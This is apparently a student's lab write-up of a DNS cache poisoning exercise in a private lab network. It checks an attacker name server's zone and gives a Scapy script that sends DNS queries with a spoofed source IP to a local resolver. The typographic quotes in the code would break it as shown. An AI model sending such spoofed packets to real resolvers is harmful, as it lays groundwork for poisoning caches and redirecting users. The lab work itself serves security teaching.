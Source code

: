     - The request is sent specifically to the Attacker's Name Server at `ns.attacker32.com` and since we cached it earlier, we contact its IP address directly, `10.9.0.153`.
    - ![attacker zone_example.com](images/attacker_zone_example.com.png){width=50%}
    - We see that in the attacker's zone file for `example.com`, the A record for `www.example.com` points to `1.2.3.5`.
    - This is the same as what we got from the dig command above, so we know the DNS environment is set up correctly.

## Task 2 Construct DNS requests
- We are asked to create a python script that can construct and send DNS requests to the local DNS server at `10.9.0.53`.
- Since we are running this script from the user container, ip address `10.9.0.5`, we will spoof the source IP address to be `10.9.0.1` which is the ip of the host VM.
- for `dport` we use `53` since that is the port used for DNS requests.
- for `sport` we can use any random short port.
- We use the `construct_dns_req.py` code below:
- ```python 
    from scapy.all import *
    import random

    spoof_vm_ip = '10.9.0.1' #spoofed ip
    local_dns_ip = '10.9.0.53' # ip of local dns server, this is not the attacker dns server

    Qdsec = DNSQR(qname=’example.com’) # DNS Question Record, asking for example.com
    dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0, arcount=0, qd=Qdsec)
    ip = IP(dst= local_dns_ip , src= spoof_vm_ip) # IP layer, set destination to local dns server and source to attacker vm
    udp = UDP(dport=53, sport=RandShort(), chksum=0) # UDP layer, set destination port to 53 (dns port) and source port to random short
    request = ip/udp/dns
    send(request)
    ```
- When we run the python code above, we see this in wireshark: